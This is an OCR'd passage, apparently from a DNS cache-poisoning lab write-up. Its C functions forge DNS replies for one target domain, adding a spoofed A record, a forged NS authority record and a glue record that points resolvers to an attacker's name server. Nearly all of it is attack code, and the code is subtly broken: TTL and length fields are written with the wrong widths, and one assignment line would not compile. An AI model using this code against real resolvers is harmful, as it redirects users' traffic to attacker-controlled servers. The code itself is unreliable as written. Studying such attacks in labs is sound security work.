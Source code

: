   - data length
  - data: name server

### Construct DNS Reply

```C
unsigned short construct_dns_reply(char *buffer){
  struct dnsheader *dns = (struct dnsheader *) buffer;

  //construct the dns header
  dns->flags=htons(0x8400);//flag = response this is a dns response

  // the number of certain fields
  dns->QDCOUNT=htons(1); //1 the question field
  dns->ANCOUNT=htons(1); //1 answer field
  dns->NSCOUNT=htons(1); //1 name server (authority) field
  dns->ARCOUNT=htons(1); //1 additional field

  char *p=buffer+12;// move the pointer to the beginning of the DNS data

  if(strstr(p, TARGET_DOMAIN)==NULL) return 0; // only target one specific domain

  p += strlen(p) +1 +2+2;// skip the question section (no change)

  p += set_A_record(p, NULL, 0x0C, ANSWER_IPADDR); // add an A record (Answer Section)
  p += set_NS_record(p, TARGET_DOMAIN, 0, NS_SERVER); // add an NS record (Authority Section)
  p += set_A_record(p, NS_SERVER, 0, NS_IPADDR); // add an A record (additional section)

  return p-buffer;
}
```

### Construct an "A" record

```C
unsigned short set_A_record(char *buffer, char *name, char offset, char *ip_addr){
  char *p=buffer;

  if(name==NULL){
    *p = 0xC0; p++;
    *p = offset; p++;
  }else{
    strcpy(p,name);
    p+=strlen(name)+1;
  }

  *((unsigned short *)p)=htons(0x001);//record type
  p+=2;
  *((unsigned short *)p)=htons(0x001);//class
  p+=2;
  *((unsigned short *)p)=htonl(0x00002000);//time to live
  p+=4;
  *((unsigned short *)p)=htonl(0x0004);//data length
  p+=2;
  *((struct in_addr *)p)->s_addr=inet_addr(ip_addr);//IP Address
  p+=4;

  return (p-buffer);
}
```
